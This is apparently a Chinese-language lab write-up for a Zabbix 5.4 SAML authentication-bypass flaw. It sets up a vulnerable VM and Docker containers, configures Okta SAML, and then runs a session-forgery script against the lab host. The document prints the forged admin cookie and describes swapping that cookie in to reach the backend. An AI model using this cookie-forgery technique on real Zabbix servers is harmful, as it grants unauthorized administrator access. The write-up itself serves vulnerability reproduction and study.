 #环境搭建

环境配置较复杂，本文搭建基于虚拟机。

##虚拟机（漏洞存在）

zabbix5.4的虚拟机
https://cdn.zabbix.com/zabbix/appliances/stable/5.4/5.4.8/zabbix_appliance-5.4.8-vmx.tar.gz 

##docker版本（漏洞修复）

	docker pull zabbix/zabbix-server-mysql:centos-5.4.8
	docker pull zabbix/zabbix-web-nginx-mysql:centos-5.4.8
	docker pull zabbix/zabbix-java-gateway:centos-5.4.8
	
	
	docker run --name mysql-server -t \
	-p 3306:3306 \
	-e MYSQL_DATABASE="zabbix" \
	-e MYSQL_USER="zabbix" \
	-e MYSQL_PASSWORD="zabbix_pwd" \
	-e MYSQL_ROOT_PASSWORD="root_pwd" \
	-d mysql:8.0 \
	--character-set-server=utf8 --collation-server=utf8_bin \
	--default-authentication-plugin=mysql_native_password
	
	docker run --name zabbix-java-gateway -t \
	-d zabbix/zabbix-java-gateway:centos-5.4.8
	
	docker run --name zabbix-server-mysql -t \
	-e DB_SERVER_HOST="mysql-server" \
	-e MYSQL_DATABASE="zabbix" \
	-e MYSQL_USER="zabbix" \
	-e MYSQL_PASSWORD="zabbix_pwd" \
	-e MYSQL_ROOT_PASSWORD="root_pwd" \
	-e ZBX_JAVAGATEWAY="zabbix-java-gateway" \
	--link mysql-server:mysql \
	--link zabbix-java-gateway:zabbix-java-gateway \
	-p 10051:10051 \
	-d zabbix/zabbix-server-mysql:centos-5.4.8
	
	docker run --name zabbix-web-nginx-mysql -t \
	-e DB_SERVER_HOST="mysql-server" \
	-e MYSQL_DATABASE="zabbix" \
	-e MYSQL_USER="zabbix" \
	-e MYSQL_PASSWORD="zabbix_pwd" \
	-e MYSQL_ROOT_PASSWORD="root_pwd" \
	--link mysql-server:mysql \
	--link zabbix-server-mysql:zabbix-server \
	-p 8080:8080 \
	-d zabbix/zabbix-web-nginx-mysql:centos-5.4.8

	docker run \
    -d \
    --name keycloak \
    -p 8081:8080 \
    -e KEYCLOAK_USER=admin \
    -e KEYCLOAK_PASSWORD=123456 \
    -e DB_ADDR="mysql-server" \
    -e DB_PORT=3306 \
    -e DB_DATABASE=keycloak \
    -e DB_USER=root \
    -e DB_PASSWORD="root_pwd" \
    jboss/keycloak:9.0.0



##开启SAML协议

(参考https://github.com/catsAND/zabbix-saml)

登陆https://www.okta.com/developers找到Okta Developers点击

![](image/8.png)

Sign up for free注册个账号

![](image/9.png)

注册完后会跳转到后台，左侧菜单找到Applications->Applications->Create App Interfration

![](image/10.png)

选择SAML2.0下一步，App name填zabbix，下一步配置SAML，

	#Single sign on URL
	http://192.168.153.142/index_sso.php?acs

	#Audience URI (SP Entity ID) 
	zabbix

	#Name ID format 
	EmailAddress
	
	#Application username 
	Email
	
	#Update application username on 
	Create and update

![](image/11.png)


下面Attribute Statements (optional)填入

![](image/12.png)

Next下一步，选择I'm an Okta customer adding an internal app，Finish结束

![](image/13.png)

进入配置完的zabbix，找到Assignments,点击Assign->Assgin to People，选择里面的用户，点击Assign->Save and go back->Done

![](image/14.png)

点击Sign On，找到里面的View Setup Instructions

![](image/15.png)

根据里面的信息配置zabbix

![](image/16.png)

在 Zabbix 服务器的 /usr/share/zabbix/conf/certs 目录创建 idp.crt 文件，文件内容如上图，并赋权限

	/usr/share/zabbix/conf/certs/idp.crt
	
	chmod 644 idp.crt
	chmod +x idp.crt

登陆zabbix(Admin/zabbix)配置SAML认证,打开 Administration->Authentication->SAML settings

![](image/17.png)
	

Update更新，返回登陆页面出现Sign in with Single Sign-On (SAML)

![](image/3.png)

##复现

获取Cookie

```python3 zabbix_session_exp.py http://192.168.153.142 Admin```

	decode_payload: 
	{"saml_data": {"username_attribute": "Admin"}, "sessionid": "28838b6864ee9b7fd29ccf4c60ecb60b", "sign": "J6dtgE/82DQwCcvy+bvAVC//JREa1MPsVu/buHZUJnLm3p1VUXl3LSf8F6vJfZQdC+/4bKTmOPL/UszFU0PrSg=="}

	zbx_signed_session: eyJzYW1sX2RhdGEiOiB7InVzZXJuYW1lX2F0dHJpYnV0ZSI6ICJBZG1pbiJ9LCAic2Vzc2lvbmlkIjogImM1MDgyOTNhNDI4OTA4YTUyZjMzMmVkNTAxMzM4ZTJiIiwgInNpZ24iOiAiMEw5RGQrUVZsMWdBRDhXNzdxcXN1VHladWg2MFpTbEYyR0JRblJvbXJFQWtia2J0eFEzek5YQk1OT3pyZVZSMEMrLzRiS1RtT1BML1VzekZVMFByU2c9PSJ9


点击 Sign in with Single Sign-On (SAML)，抓包，替换Cookie

![](image/18.png)

成功进入后台

![](image/19.jpg)

![](image/20.png)